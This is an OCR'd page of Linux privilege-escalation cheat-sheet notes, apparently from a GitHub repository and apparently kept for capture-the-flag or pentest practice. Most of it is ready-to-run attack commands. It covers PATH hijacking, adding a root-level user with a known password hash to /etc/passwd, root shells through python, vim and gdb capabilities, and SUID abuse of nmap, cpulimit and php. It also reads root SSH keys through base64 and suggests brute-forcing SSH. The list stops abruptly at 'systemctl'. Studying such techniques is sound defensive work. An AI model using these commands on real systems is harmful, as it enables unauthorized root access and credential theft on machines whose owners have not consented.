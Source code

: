 ### Exploit Path Variable Manipulation

```
1. echo '/bin/sh' > file
2. chmod 777 file
3. export PATH=/tmp:$PATH
```

* check /opt/ /var/opt
* `TCP-LISTEN:internet-facing-port,fork TCP:internal-ip:port &` -- port redirection
* look for users in /etc/passwd
  * use usernames as passwords for bruteforcing ssh
* if /etc/passwd is writeable add user with password > `echo 'thescriptkid:$6$CuxbQ7PO4S7csJM9$TIx0cYXhT./kZfOHgXd44OHecKCqClA2QH.r9lo4Q..nZ73OWLRFSdu4o2Qfotn4DHpJpSc.b.w0Cjto1qqjz.:0:0:comment:/root:/bin/bash' >> /etc/passwd` -- thescriptkid:thescriptkid

### Exploit +ep permission software

use `getcap -r / 2> /dev/null` to find said software

* /usr/bin/python2.7 = cap\_setuid+ep
  * python -c 'import os; os.setuid(0); os.system("/bin/sh")'
* vim - use py or py3 for python2 or python3
  * ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
* view
  * /view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

### Check root and user cronjobs

* /etc/cron.d/
* crontab -l
* cat /etc/crontab

### Search for all SUID files `find / -perm /4000 2> /dev/null` and use https://gtfobins.github.io/

* nmap
  1. nmap --interactive
  2. !/bin/bash -p
*   hping3 -p

    run bash shell
*   zsh -p

    run bash shell
* gdb
  * gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
* base32 - can potentially read any file including root ssh keys
  * LFILE=/file/to/read && base32 "$LFILE" | base32 --decode
* base64 - can potentially read any file including root ssh keys
  * LFILE=file\_to\_read
  * base64 "$LFILE" | base64 --decode
* /bin/bash -p
* cputlimit
  * cpulimit -l 100 -f cp /bin/bash .
  * cpulimit -l 100 -f chmod +s ./bash
  * ./bash -p
* php
  * php -r "pcntl\_exec('/bin/sh', \['-p']);"
* vim
  * vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
* systemctl
